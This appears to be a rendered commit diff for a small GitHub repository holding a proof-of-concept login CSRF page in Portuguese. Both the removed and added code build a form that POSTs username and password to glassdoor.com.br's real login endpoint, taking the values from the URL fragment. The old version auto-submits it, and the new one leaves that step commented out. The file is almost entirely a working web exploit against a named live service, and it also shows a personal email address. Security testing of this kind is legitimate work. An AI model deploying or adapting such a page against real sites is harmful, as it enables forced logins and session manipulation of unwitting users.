

Before and after one commit to jonataMenezes/csrf-test, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,29 +1,47 @@
 <!doctype html>
 <meta charset="utf-8">
-<title>PoC Login CSRF (urlencoded)</title>
+<title>PoC Login CSRF (visível)</title>
 <body>
+<h2>PoC Login CSRF (urlencoded)</h2>
+<p>Esta página envia um POST para <code>/auth/login/username-password</code>.</p>
+
+<div id="debug" style="padding:8px;border:1px dashed #999;margin:10px 0;"></div>
+
+<form id="f" action="https://www.glassdoor.com.br/auth/login/username-password" method="POST">
+  <label>Email (username):<br><input id="u" name="username" style="width:400px"></label><br><br>
+  <label>Senha (password):<br><input id="p" name="password" type="text" style="width:400px"></label><br><br>
+  <label>postLoginUrl:<br><input id="r" name="postLoginUrl" value="" style="width:400px"></label><br><br>
+  <button type="submit">ENVIAR (fazer POST)</button>
+</form>
+
 <script>
-  // Lê as credenciais do fragmento da URL: #u=<email>&p=<senha>
-  const params = new URLSearchParams(location.hash.slice(1));
-  const u = params.get('u') || '';
-  const p = params.get('p') || '';
-  // Monta um <form> application/x-www-form-urlencoded
-  const f = document.createElement('form');
-  f.action = 'https://www.glassdoor.com.br/auth/login/username-password';
-  f.method = 'POST';
+(function(){
+  // Lê fragmento: #u=...&p=...
+  const frag = location.hash || '';
+  const dbg = document.getElementById('debug');
+  dbg.innerHTML = '<b>Fragmento atual:</b> <code>' + (frag || '(vazio)') + '</code><br>'
+    + 'Exemplo de uso: <code>#u=seu-email%40exemplo.com&p=SuaSenha123!</code>';
 
-  const iU = document.createElement('input'); iU.name = 'username'; iU.value = u;
-  const iP = document.createElement('input'); iP.name = 'password'; iP.value = p;
-  const iR = document.createElement('input'); iR.name = 'postLoginUrl'; iR.value = '';
+  // Tenta parsear os valores
+  if (frag.startsWith('#')) {
+    const params = new URLSearchParams(frag.slice(1));
+    const u = params.get('u');
+    const p = params.get('p');
+    if (u) document.getElementById('u').value = u;
+    if (p) document.getElementById('p').value = p;
+    if (u && p) {
+      dbg.innerHTML += '<br><span style="color:green">OK: valores do fragmento aplicados aos campos acima.</span>';
+      // Se quiser auto-enviar quando houver u & p, descomente a linha abaixo:
+      // document.getElementById('f').submit();
+    } else {
+      dbg.innerHTML += '<br><span style="color:#c00">Atenção: não encontrei u e/ou p no fragmento.</span>';
+    }
+  }
+})();
+</script>
 
-  f.appendChild(iU); f.appendChild(iP); f.appendChild(iR);
-  document.body.appendChild(f);
-
-  // Submete automaticamente
-  if (u && p) {
-    f.submit();
-  } else {
-    document.write('<p>Adicione <code>#u=&lt;email&gt;&amp;p=&lt;senha&gt;</code> à URL e recarregue.</p>');
-  }
-</script>
+<p style="margin-top:20px;font-size:12px;color:#555">
+Dicas: use <code>%40</code> no lugar de <code>@</code> (ex.: <code>jonata.uberro%40gmail.com</code>).
+Se sua senha tiver espaços, use <code>%20</code>. Caracteres como <code>&</code> e <code>#</code> precisam ser escapados.
+</p>
 </body>
```
